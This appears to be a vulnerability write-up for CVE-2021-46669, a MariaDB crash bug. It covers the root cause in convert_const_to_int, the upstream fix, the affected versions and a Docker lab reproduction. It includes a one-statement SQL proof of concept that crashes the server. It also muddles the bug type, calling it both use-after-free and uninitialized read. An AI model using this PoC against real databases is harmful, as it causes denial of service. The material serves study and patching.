



# CVE-2021-46669 CWE-416 MariaDB DoS via UAF

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.

## Vulnerability Mechanism
When MariaDB optimizes the CHECK constraint during `CREATE TABLE`, the `convert_const_to_int` function converts string constants (such as `'x'`, `'x111'`) into `BIGINT` types, and at this time, the field values in the table's data buffer have not yet been initialized. This causes the function to attempt to read information from the data buffer, resulting in an error.

## Vulnerability Location
Analysis of MariaDB 10.6.3:

In the sql\item_cmpfunc.cc file, line 303, when the `convert_const_to_int` function is used to handle `IN` clauses, it pre-converts the values in the constant list to the same data type as the comparison column.

The condition statement on line 340 is used to store the original value, calling `field->val_int()` function to retrieve the integer value of this field in the current line record. It **directly accesses** the `field->table->record[0]` memory buffer to read data.

`record[0]` Points to the internal record buffer for the first row of data in the table. At this stage of `CREATE TABLE`, the table structure is being established, **there are no actual data rows yet**, so the `record[0]` buffer is not initialized at all. However, this statement mistakenly assumes it can read data from this buffer, resulting in invalid, uninitialized memory reading, triggering assertion failures and server crashes.

That is, when executing `CREATE TABLE`, `convert_const_to_int`'s function attempts to read information from the table's internal data buffer (`record[0]`). But at that point, the buffer was not yet initialized, and reading it would cause the database to crash (i.e., "uninitialized memory read").

```cpp
// item_cmpfunc.cc file, line 303
static bool convert_const_to_int(THD *thd, Item_field *field_item, Item **item)
{
  Field *field= field_item->field;
  int result= 0;

  if ((*item)->cmp_type() == INT_RESULT &&
      field_item->field_type() != MYSQL_TYPE_YEAR)
    return 1;

  if ((*item)->can_eval_in_optimize())
  {
    TABLE *table= field->table;
    MY_BITMAP *old_maps[2] = { NULL, NULL };
    ulonglong UNINIT_VAR(orig_field_val); /* original field value if valid */
    bool save_field_value;

    /* table->read_set may not be set if we come here from a CREATE TABLE */
    if (table && table->read_set)
      dbug_tmp_use_all_columns(table, old_maps,
                               &table->read_set, &table->write_set);

      // Determine whether the original value needs to be saved
    save_field_value= (field_item->const_item() ||
                       !(field->table->status & STATUS_NO_RECORD));
    // 340 lines ************** Save ******** vulnerability points if needed********************
    if (save_field_value)
      orig_field_val= field->val_int();
      
     // ... Other handling ... This will "mess" the data, so before executing it, the program must first use field->val_int() to read the original value of the field and store it in orig_field_val variables.
      
    // If it was saved before, restore it
    if (save_field_value)
    {
      result= field->store(orig_field_val, TRUE);
      /* orig_field_val must be a valid value that can be restored back. */
      DBUG_ASSERT(!result);
    }
    if (table && table->read_set)
      dbug_tmp_restore_column_maps(&table->read_set, &table->write_set, old_maps);
  }
  return result;
}
```

## Remediation
Add code `outparam->status = STATUS_NO_RECORD;` to the `open_table_from_share` function in the [`sql/table.cc`](https://github.com/MariaDB/server/commit/c274853c0797801de0398699d60c8579c45d1f61#diff-c404d86b1ddf4b784225a0905d5e6c4371737dfe3af843a58ecdcd9b88c72676) file, to mark this new table with a **"No Record" ( in the function (`open_table_from_share`) that initializes the table object ( `STATUS_NO_RECORD`)** status mark.

At this point `TABLE` object has just been zeroed and the core association has been established, but no complex operations (such as loading fields, constraints, etc.) have not yet been performed. Setting `STATUS_NO_RECORD` here immediately ensures that any **lateral** initialization steps use uninitialized regions.

When the `convert_const_to_int` function runs, its internal logic first checks this status flag. When it sees `STATUS_NO_RECORD`, it knows the `record[0]` is invalid, thus **actively skipping** that dangerous memory read code segment and avoiding crashes.

```cpp
// ...  
outparam->db_stat= db_stat;
outparam->write_row_record= NULL;
outparam->status= STATUS_NO_RECORD;  // Add signage
// ...
```

## Affected Versions
**Affected version:** MariaDB:

- 10.2.44 to ~
- 10.3.0 to 10.3.34
- 10.4.0 to 10.4.24
- 10.5.0 to 10.5.15
- 10.6.0 to 10.6.7
- 10.7.0 to 10.7.3

## Environment Setup
Starting the Docker environment, MariaDB version is 10.6.3, administrator is root user, password is 12345, there is a database test_db, open port 3306, and PoC file CVE-2021-46669-PoC.sql already exists in the container.

```txt
NIST: NVD Base Score: 7.5 HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2021-46669-PoC.sql, and you will see that an error has been encountered and the container will automatically close

```sql
source CVE-2021-46669-PoC.sql
```



4. Checking the MariaDB crash log, you can see that a heap memory address that has already been freed was used, indicating that UAF occurred causing DoS.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
CREATE TABLE v0 (
  v1 bigint CHECK (
    v1 NOT IN ( 'x', 'x111' )
  )
);
```

`v1` is a `BIGINT` type, and in `NOT IN ( 'x', 'x111' )`, `'x'` and `'x111'` are **strings**. When MariaDB constructs a CHECK constraint expression, it tries to sum `'x'` `'x111'` **Implicit conversion to BIGINT**.

MariaDB found that `'x'` could not be converted to a valid integer, so it called `convert_const_to_int()` to try to read some properties about the `v1` field from `record[0]`. However, since it is still in the `CREATE TABLE` stage, the table structure is being established and the data area is not yet ready. `record[0]` It is just a piece of allocated but **not initialized**, ultimately causing crashes.

## References
[NVD: CVE-2021-46669](https://nvd.nist.gov/vuln/detail/CVE-2021-46669)

[MariaDB MDEV-25638: `convert_const_to_int` use-after-free](https://jira.mariadb.org/browse/MDEV-25638)
